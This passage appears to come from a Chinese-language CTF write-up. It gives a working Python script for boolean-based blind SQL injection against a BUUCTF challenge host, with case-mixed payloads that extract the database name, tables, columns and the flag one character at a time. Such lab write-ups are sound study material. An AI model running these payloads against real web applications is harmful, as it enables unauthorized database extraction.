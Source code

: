 ![image-20231211100316757](images/48.png)

写个脚本

```pythonp
import requests

url = "http://3acc596b-7c38-4bf2-b18d-5723a6ba7077.node4.buuoj.cn:81/?id=TMP0919"

result = ""
i = 0

while (True):
    i = i + 1
    head = 32
    tail = 127

    while (head < tail):
        mid = (head + tail) // 2

        # payload = "' aNd (asCii(sUbstr(database(), %d, 1))) > %d--+" % (i, mid)
        # payload = "' aNd (asCii(suBstr((seLect group_concat(table_name) from infoRmation_schema.tables wHere table_schema=database()), %d, 1))) > %d--+" % (i, mid)
        # payload = "' aNd (asCii(suBstr((seLect group_concat(column_name) from infoRmation_schema.columns wHere table_name='here_is_flag' limit 0,1), %d, 1))) > %d--+" % (i, mid)
        payload = "' aNd (asCii(suBstr((seLect flag from here_is_flag limit 0,1), %d, 1))) > %d--+" % (i, mid)

        r = requests.get(url + payload)
        # print(r.text)
        r.encoding = "utf-8"
        # print(url+payload)
        if "id: TMP0919" in r.text:
            head = mid + 1
        else:
            # print(r.text)
            tail = mid

    last = result

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)
```
